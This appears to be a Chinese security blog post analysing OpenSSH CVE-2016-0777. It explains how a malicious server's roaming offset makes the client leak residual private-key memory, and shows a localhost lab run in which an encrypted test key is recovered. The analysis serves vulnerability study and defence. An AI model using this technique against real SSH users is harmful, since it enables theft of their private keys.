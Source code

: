 ```yaml
---
layout: post
title: "OpenSSH CVE-2016-0777私钥窃取技术分析"
---
```


**Author: au2o3t @360 Cloud Security Team**

# 0x01 前言

想起以前写了很多广告序，估计也没什么人看。后来看到“天眼APT Team”和“360安服团队”的人针对黑产只写了句“人在做，天在看”，有点感悟。赶紧把sb类型的广告删掉，不能低估各位看客的智商。

安全本来就是攻防，没什么好讲的，一群追逐影子的人，对于漏洞的验证只是满足猎奇心理罢了。

写完后还要去楼下继续围观 360 Unicorn Team在360互联网训练营上的超级精彩演讲。

hf!

# 0x02 技术分析

不b话，上图。

![][1]

## 环境：

### 系统版本：

> Linux version 3.10.0-229.11.1.el7.x86_64 (builder@kbuilder.dev.centos.org) (gcc version 4.8.3 20140911 (Red Hat 4.8.3-9) (GCC) ) #1 SMP Thu Aug 6 01:06:18 UTC 2015

### SSH版本：

> OpenSSH_6.4p1, OpenSSL 1.0.1e-fips 11 Feb 2013

以下结论为上述环境中实现

## 过程：

ssh建立连接时会读入证书，其内存通过buffer.c文件中的buffer_init()，buffer_free()函数管理

正常情况使用完毕会将内存内容清零

但若证书内容大于4k，ssh会调用realloc重新分配更多内存，此时不会将之前的内存清零，由此证书头4k内容会残留在内存中


接着，若恶意服务器应答roaming，则协议好roaming id，cookie等以及一个服务端可控的偏移值 offset（实验中我设置此值为 4096 – 663430，应客户端默认发送缓冲长度为663430）

同时响应一个<=4k的长度s_len，客户端会分配一块长度为s_len的“roaming_mem”，内容即为未清零的证书前4k残留


此时恶意服务器断开连接，客户端用户可选择恢复连接

则客户端会将发送偏移(ofs1)设置为服务端送过来的 offset 加本机默认发送缓冲长度 663430

ofs2即是s_len长度4096

如此，客户端会发送 roaming_mem + ofs1 – ofs2，长度 ofs2 的内容到服务端

此时ofs1-ofs2恰好等于0，也就相当于发送 roaming_mem 为起始地址，ofs2=4096长度的内容，刚好就是证书4k残留

## 实践：

（证书内容本身不足4k，为方便实验，手工在证书末尾添加了若干”n”作为补位）

{% highlight shell %}
[xxx@test openssh-6.4p1]$ ll /home/xxx/.ssh/id_rsa
-rw——- 1 xxx xxx 5169 Jan 16 11:58 /home/xxx/.ssh/id_rsa
[xxx@test openssh-6.4p1]$ strings /home/xxx/.ssh/id_rsa
—–BEGIN RSA PRIVATE KEY—–
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3C261314BCFFF0379DB2CE2E14F2CD42
45Tdi0y20+qovA5xbv957Ip8kwYqc48cjVcgSY4I7x/TDfUe9pziuGYJN1qPwfBJ
rh97z/yRPxGmMHxg+30cZ0tnGuRpKkCs/7fd2dSn19JxXS9+kxsZ2huVKgKigeyC
eu8Lb79Zmynhs1J/roqu2nlF6spCUD+dkmh8AldEw6eDYequv9iFSjVNMIcc9vXw
sh+7XfxJDS+A55X2yRJ6lOh10b+wxF/jf0fCaTsDtgHovoOUR/M6/TT56v5h/Nt5
G5p7Cjfe49OIw6jLzYua7/2DGM2F/9cbVy27h+OS+cJEhsLF+ajz5Go4nMYuhRY+
b6+v9KPy8mjeliXU3uwNGiO2jEztnX2m9EF43P58fVpky27pqVGK62Pm9vk24c2X
LxHTWw7eZipi7SNUNgsxKd8sxw26474DM0i6kiJNt9/OZxiVf3Sdu+R97+zeLBGI
R39QUfnsNNIO67DTqvskHbs6reTm4XQYpofZ9dzCAqgYbqNl0U4ZmY37p28Vu7GM
waHmT1c2jhpkZZBcRBsqskDywa7SfhR95Te1F+VR3XzxvW8xM4c4mhZ0oPV5ahFH
Dy1Odg9bd0TxufdjHPofulQjx2Ir9HhpAVasycyj6YEpe41COcxrTqU5uMjfLtoM
vQn0mGfRxb4gripQ0ImgSXWAhcRAlBCtrUuqadiLVIyRfJM4aEiuHlH2oKWjry0I
1i57M29VfmmNUf68R/AGTypMBVUx6FhV5xOeg4gnbDMIDHQ0e6VK/ZaFwU+xZozy
AHJIzbD27WADJZuj+izRrt+6uF1LgwlFyJkXUjDMUka/VNk3R+fkuB8kvf8ibJIP
gq0Ipn/I9rrymohGVjQjdbPYECy2QMqS3sjhKZsaGcOWNMG2bHO+1HsOJI5cUIZy
P7gOqtWO1V3bABHZJ9SK1yFj46S1dqbAic2We8dKUzRZIIx3hRPDDBp75IyLHnOI
EHkv0nYWg3CFPBaBZucfuEBPBdEUcZfYqWDgN4NNB+I6hUDKJgEi1psEKkmqqxEv
4GKVyhiIqBadZjIlhJc+bqd3za0p0xrk2DjVBR3bBepASkO4YKrzNzrF7TlMllFq
bhGrDsirw1fIP0NSDgREKdPFbRRshFdj9tRvWldq9QW9TFDPbJmzE7SC/56ggdvu
KhTNxTPaEZnck7INzJm/gYQiaZ/aeyJ+G5rNixWAKhRxHsqlWTWf+fySqoTMKClw
dj/pgZtt3oC5TdkO3DPC4/lyXSTa0uYGs1Alyr4FiOcyZ0CkE1ZQPyy1W1IKNlYW
Umvhw2F+y7x+uo/7TRz6ahOeQV9kF5pkEhm0zLE2yYVRzmf08i+rQ+OqjFH76bEb
6bGjd4TCVUIBXv6OpMm8vy/oB/QBxxNRlH5VnAcT+r/gu0tEFdroBkJ5RZEDMC6c
Vp5tZg+C7Cr2pfmoYBVnbIQ7CzlMvHpone9AFNnblL8Fcpwe/SSAcJP/p2TlFvg4
GCs3AYeWCOlRjroKOCjh0ikUcrXR85auPz6CG/hq3LVHyEZ1XfoLty4WOsTXwG5B
xE63YLQgG8oHHJFgtu2W5yHodfPIG1LOeBO5eaqpMj0qSGFdyLXPtT0Dnyc8CPo1
—–END RSA PRIVATE KEY—–
[xxx@test openssh-6.4p1]# /home/xxx/openssh-6.4p1/sshd -o ListenAddress=127.0.0.1:222 -o UsePrivilegeSeparation=no -f /etc/ssh/sshd_config -h /etc/ssh/ssh_host_rsa_key
[xxx@test openssh-6.4p1]$ ./ssh -p222 127.0.0.1
Enter passphrase for key ‘/home/xxx/.ssh/id_rsa':
xxx@127.0.0.1’s password:
[connection suspended, press return to resume][connection resumed]
[63]+  Stopped                 ./ssh -p222 127.0.0.1
[xxx@test openssh-6.4p1]$ sudo -i
[sudo] password for xxx:
[root@test ~]# strings /home/xxx/key
—–BEGIN RSA PRIVATE KEY—–
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3C261314BCFFF0379DB2CE2E14F2CD42
45Tdi0y20+qovA5xbv957Ip8kwYqc48cjVcgSY4I7x/TDfUe9pziuGYJN1qPwfBJ
rh97z/yRPxGmMHxg+30cZ0tnGuRpKkCs/7fd2dSn19JxXS9+kxsZ2huVKgKigeyC
eu8Lb79Zmynhs1J/roqu2nlF6spCUD+dkmh8AldEw6eDYequv9iFSjVNMIcc9vXw
sh+7XfxJDS+A55X2yRJ6lOh10b+wxF/jf0fCaTsDtgHovoOUR/M6/TT56v5h/Nt5
G5p7Cjfe49OIw6jLzYua7/2DGM2F/9cbVy27h+OS+cJEhsLF+ajz5Go4nMYuhRY+
b6+v9KPy8mjeliXU3uwNGiO2jEztnX2m9EF43P58fVpky27pqVGK62Pm9vk24c2X
LxHTWw7eZipi7SNUNgsxKd8sxw26474DM0i6kiJNt9/OZxiVf3Sdu+R97+zeLBGI
R39QUfnsNNIO67DTqvskHbs6reTm4XQYpofZ9dzCAqgYbqNl0U4ZmY37p28Vu7GM
waHmT1c2jhpkZZBcRBsqskDywa7SfhR95Te1F+VR3XzxvW8xM4c4mhZ0oPV5ahFH
Dy1Odg9bd0TxufdjHPofulQjx2Ir9HhpAVasycyj6YEpe41COcxrTqU5uMjfLtoM
vQn0mGfRxb4gripQ0ImgSXWAhcRAlBCtrUuqadiLVIyRfJM4aEiuHlH2oKWjry0I
1i57M29VfmmNUf68R/AGTypMBVUx6FhV5xOeg4gnbDMIDHQ0e6VK/ZaFwU+xZozy
AHJIzbD27WADJZuj+izRrt+6uF1LgwlFyJkXUjDMUka/VNk3R+fkuB8kvf8ibJIP
gq0Ipn/I9rrymohGVjQjdbPYECy2QMqS3sjhKZsaGcOWNMG2bHO+1HsOJI5cUIZy
P7gOqtWO1V3bABHZJ9SK1yFj46S1dqbAic2We8dKUzRZIIx3hRPDDBp75IyLHnOI
EHkv0nYWg3CFPBaBZucfuEBPBdEUcZfYqWDgN4NNB+I6hUDKJgEi1psEKkmqqxEv
4GKVyhiIqBadZjIlhJc+bqd3za0p0xrk2DjVBR3bBepASkO4YKrzNzrF7TlMllFq
bhGrDsirw1fIP0NSDgREKdPFbRRshFdj9tRvWldq9QW9TFDPbJmzE7SC/56ggdvu
KhTNxTPaEZnck7INzJm/gYQiaZ/aeyJ+G5rNixWAKhRxHsqlWTWf+fySqoTMKClw
dj/pgZtt3oC5TdkO3DPC4/lyXSTa0uYGs1Alyr4FiOcyZ0CkE1ZQPyy1W1IKNlYW
Umvhw2F+y7x+uo/7TRz6ahOeQV9kF5pkEhm0zLE2yYVRzmf08i+rQ+OqjFH76bEb
6bGjd4TCVUIBXv6OpMm8vy/oB/QBxxNRlH5VnAcT+r/gu0tEFdroBkJ5RZEDMC6c
Vp5tZg+C7Cr2pfmoYBVnbIQ7CzlMvHpone9AFNnblL8Fcpwe/SSAcJP/p2TlFvg4
GCs3AYeWCOlRjroKOCjh0ikUcrXR85auPz6CG/hq3LVHyEZ1XfoLty4WOsTXwG5B
xE63YLQgG8oHHJFgtu2W5yHodfPIG1LOeBO5eaqpMj0qSGFdyLXPtT0Dnyc8CPo1
—–END RSA PRIVATE KEY—–
[root@test ~]#  ll /home/xxx/key
-r——– 1 root root 4096 Jan 16 11:59 /home/xxx/key
{% endhighlight %}

# 0x03 写在最后

唯一要说明的是现实世界里pravite key文件超过4k大小是一个并不常见的问题。引用Quake3里的最感人的一句话作结尾。

gl, i love this game! (不知道有谁见到过这句话，见过的人你应该也是战斗过的人)。

[1]: https://p5.ssl.qhimg.com/t016e56806938002449.png
